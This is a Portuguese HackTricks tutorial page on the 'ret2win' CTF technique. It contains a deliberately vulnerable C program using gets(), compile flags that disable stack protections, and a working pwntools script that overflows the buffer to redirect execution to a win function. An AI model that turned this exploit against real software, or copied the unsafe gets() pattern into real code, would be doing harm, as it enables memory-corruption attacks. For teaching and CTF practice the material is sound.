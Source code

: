 # Ret2win

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Informações Básicas

Os desafios **Ret2win** são uma categoria popular em competições de **Capture The Flag (CTF)**, especialmente em tarefas que envolvem **exploração binária**. O objetivo é explorar uma vulnerabilidade em um binário fornecido para executar uma função específica e não solicitada dentro do binário, geralmente chamada de `win`, `flag`, etc. Essa função, quando executada, geralmente imprime uma bandeira ou uma mensagem de sucesso. O desafio geralmente envolve sobrescrever o **endereço de retorno** na pilha para desviar o fluxo de execução para a função desejada. Aqui está uma explicação mais detalhada com exemplos:

### Exemplo em C

Considere um programa C simples com uma vulnerabilidade e uma função `win` que pretendemos chamar:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
Para compilar este programa sem proteções de pilha e com **ASLR** desativado, você pode usar o seguinte comando:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: Compilar o programa como um binário de 32 bits (isso é opcional, mas comum em desafios CTF).
* `-fno-stack-protector`: Desativar proteções contra estouro de pilha.
* `-z execstack`: Permitir a execução de código na pilha.
* `-no-pie`: Desativar Executável Independente de Posição para garantir que o endereço da função `win` não mude.
* `-o vulnerable`: Nomear o arquivo de saída como `vulnerable`.

### Exploração em Python usando Pwntools

Para a exploração, vamos usar o **pwntools**, um framework CTF poderoso para escrever exploits. O script de exploit criará um payload para estourar o buffer e sobrescrever o endereço de retorno com o endereço da função `win`.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
Para encontrar o endereço da função `win`, você pode usar **gdb**, **objdump**, ou qualquer outra ferramenta que permita inspecionar arquivos binários. Por exemplo, com `objdump`, você poderia usar:
```sh
objdump -d vulnerable | grep win
```
Este comando mostrará o assembly da função `win`, incluindo o seu endereço de início.

O script Python envia uma mensagem cuidadosamente elaborada que, ao ser processada pela `vulnerable_function`, causa um estouro de buffer e sobrescreve o endereço de retorno na pilha com o endereço de `win`. Quando a `vulnerable_function` retorna, em vez de retornar para `main` ou sair, ela salta para `win` e a mensagem é impressa.

## Proteções

* [**PIE**](../common-binary-protections-and-bypasses/pie/) **deve ser desativado** para que o endereço seja confiável em execuções futuras, caso contrário, o endereço onde a função será armazenada não será sempre o mesmo e seria necessário algum vazamento para descobrir onde a função `win` está carregada. Em alguns casos, quando a função que causa o estouro é `read` ou similar, você pode fazer uma **Sobrescrita Parcial** de 1 ou 2 bytes para alterar o endereço de retorno para ser a função `win`. Devido ao funcionamento do ASLR, os últimos três nibbles hexadecimais não são randomizados, então há uma **chance de 1/16** (1 nibble) de obter o endereço de retorno correto.
* [**Canários de Pilha**](../common-binary-protections-and-bypasses/stack-canaries/) também devem ser desativados, caso contrário, o endereço de retorno comprometido do EIP nunca será seguido.

## Outros exemplos e Referências

* [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
* [https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html](https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html)
* 32 bits, sem ASLR
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html)
* 64 bits com ASLR, com um vazamento do endereço binário
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html)
* 64 bits, sem ASLR
* [https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html)
* 32 bits, sem ASLR, duplo estouro pequeno, primeiro para estourar a pilha e aumentar o tamanho do segundo estouro
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bits, relro, sem canário, nx, sem pie, string de formato para sobrescrever o endereço `fflush` com a função `win` (ret2win)
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html)
* 32 bits, nx, nada mais, sobrescrita parcial do EIP (1Byte) para chamar a função `win`
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html)
* 32 bits, nx, nada mais, sobrescrita parcial do EIP (1Byte) para chamar a função `win`
* [https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html](https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html)
* O programa está validando apenas o último byte de um número para verificar o tamanho da entrada, portanto é possível adicionar qualquer tamanho, desde que o último byte esteja dentro da faixa permitida. Em seguida, a entrada cria um estouro de buffer explorado com um ret2win.
* [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
* 64 bits, relro, sem canário, nx, pie. Sobrescrita parcial para chamar a função `win` (ret2win)
